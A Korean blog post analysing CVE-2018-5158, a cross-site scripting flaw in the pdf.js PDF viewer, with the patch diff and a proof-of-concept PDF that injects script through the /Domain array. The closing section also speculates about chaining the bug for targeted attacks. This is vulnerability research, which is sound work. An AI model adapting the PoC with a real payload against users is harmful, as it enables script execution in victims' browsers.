 ```yaml
---
layout: post
title: "CVE-2018-5158 1-day Analysis"
excerpt: "PDF Viewer UXSS Trigger"
date: 2021-03-21
categories: [Web,CVE]
comments: true
---
```


<h3> 0x0. CVE-2018-5158

웹 익스텐션인 PDF뷰어(pdf.worker.js)를 통해서 트리거되는 UXSS 기법의 취약점

PDF뷰어에서 PostScript를 이용할 때, 인풋 파라미터 값을 어레이인지만 검증하고 직접적인 필터링을 하지 않음으로 발생

Safari 13.0.5와 Firefox 74.0 등등에서 작동



<h3> 0x1. 벡터
</h3>

PDF Viewer는 PostScript Calculator 기능을 처리할 때,  자바스크립트로 변환하여 작업하는데 이때, PostScript 자체의 코드는 보안하지만 /Domain이나 /Range를 통해서 넘어오는 인풋값은 따로 검증하지 않음. 이를 통해서 PDF에 xss스크립트를 삽입하고 뷰어를 통하여 확인할 때 트리거 가능

```javascript
+      function toNumberArray(arr) {
+        if (!Array.isArray(arr)) {
+          return null;
+        }
+        var length = arr.length;
+        for (var i = 0; i < length; i++) {
+          if (typeof arr[i] !== 'number') {
+            var result = new Array(length);
+            for (var j = 0; j < length; j++) {
+              result[j] = +arr[j];
+            }
+            return result;
+          }
+        }
+        return arr;
+      }
       var PDFFunction = function PDFFunctionClosure() {
         var CONSTRUCT_SAMPLED = 0;
         var CONSTRUCT_INTERPOLATED = 2;
         var CONSTRUCT_STICHED = 3;
         var CONSTRUCT_POSTSCRIPT = 4;
         return {
           getSampleArray: function PDFFunction_getSampleArray(size, outputSize, bps, str) {
             var i, ii;
@@ -41747,43 +41763,43 @@
                 out[index] = [
                   arr[i],
                   arr[i + 1]
                 ];
                 ++index;
               }
               return out;
             }
-            var domain = dict.getArray('Domain');
-            var range = dict.getArray('Range');
+            var domain = toNumberArray(dict.getArray('Domain'));
+            var range = toNumberArray(dict.getArray('Range'));
             if (!domain || !range) {
               error('No domain or range');
             }
             var inputSize = domain.length / 2;
             var outputSize = range.length / 2;
             domain = toMultiArray(domain);
             range = toMultiArray(range);
-            var size = dict.get('Size');
+            var size = toNumberArray(dict.get('Size'));
             var bps = dict.get('BitsPerSample');
             var order = dict.get('Order') || 1;
             if (order !== 1) {
               // No description how cubic spline interpolation works in PDF32000:2008
               // As in poppler, ignoring order, linear interpolation may work as good
               info('No support for cubic spline interpolation: ' + order);
             }
-            var encode = dict.getArray('Encode');
+            var encode = toNumberArray(dict.getArray('Encode'));
             if (!encode) {
               encode = [];
               for (var i = 0; i < inputSize; ++i) {
-                encode.push(0);
-                encode.push(size[i] - 1);
-              }
-            }
-            encode = toMultiArray(encode);
-            var decode = dict.getArray('Decode');
+                encode.push([0, size[i] - 1]);
+              }
+            } else {
+              encode = toMultiArray(encode);
+            }
+            var decode = toNumberArray(dict.getArray('Decode'));
```

이를 근거로 배열에 페이로드를 첨부하여 사용자가 pdf 뷰어를 통해 이를 열람할 때 공격이 가능하다. 이건 diff라서 패치가 된 모습도 보여주는데 이전 - 버전을 보면 값에 대한 검증을 하지 않는 것 을 알 수 있다.



<h3>0x2. PoC
</h3>

```javascript
/%PDF-1.4.1 0 obj.<<.  /FunctionType 4.  /Domain [(console.log("test")) 0].  /Range [0 0].  /Length 12.>>.stream.{.  0 add.}.endstream.endobj.2 0 obj.<<.  /Type /Catalog.  /Pages 3 0 R.>>.endobj.3 0 obj.<<.  /Type /Pages.  /Kids [6 0 R].  /Count 1.>>.endobj.4 0 obj.[ /Indexed.  [ /DeviceN.    [/Cyan /Black].    /DeviceCMYK.    1 0 R.  ].  1(123).].endobj.5 0 obj.<<.  /Type /XObject.  /Subtype /Image.  /Width 1.  /Height 1.  /ColorSpace 4 0 R.  /BitsPerComponent 8.  /Length 1.>>.stream.x.endstream.endobj.6 0 obj.<<.  /Type /Page.  /Parent 3 0 R.  /Resources.  <<.    /XObject << /Im5 5 0 R >>.  >>.  /MediaBox [0 0 100 100].  /Contents 7 0 R.>>.endobj.7 0 obj.<<.  /Length 100.>>.stream.  1  1  1  rg.  0  0  100 100 re  f.  BT.    /Para << /MCID 1 >>.    BDC.      /Im5 Do.    EMC.  ET.endstream.endobj.trailer.<<.  /Root 2 0 R.>>.startxref.%%EOF.
```

 이게 PoC.pdf의 hex내용이고 사실상 그냥 /Domain에 [(console.log("test")) 0]이다. 그 후에 조건 값을 맞춰주면서 트리거를 진행하면 된다.



<h3>0x3.ETC
</h3>

추가적으로 PDF Viewer 는 CORS를 우회할 수 있는 방법이 많기 때문에 이를 더 연구해보면 좋을 것 같다. 또한 공격의 특성상 상대방이 해당 PDF파일을 열람을 해야만 공격이 가능해서 이를 연계하는 방법에 대해서도 구상이 필요하다.

이를 통해서 특정 타겟에 대한 xss 공격을 시행할 수 있어서 apt공격 같은 경우에도 사용이 될 것 같다. uxss사례들을 다양하게 공부해보면 좋을 것 같다.



<h3>0x4. Reference
</h3>

https://nvd.nist.gov/vuln/detail/CVE-2018-5158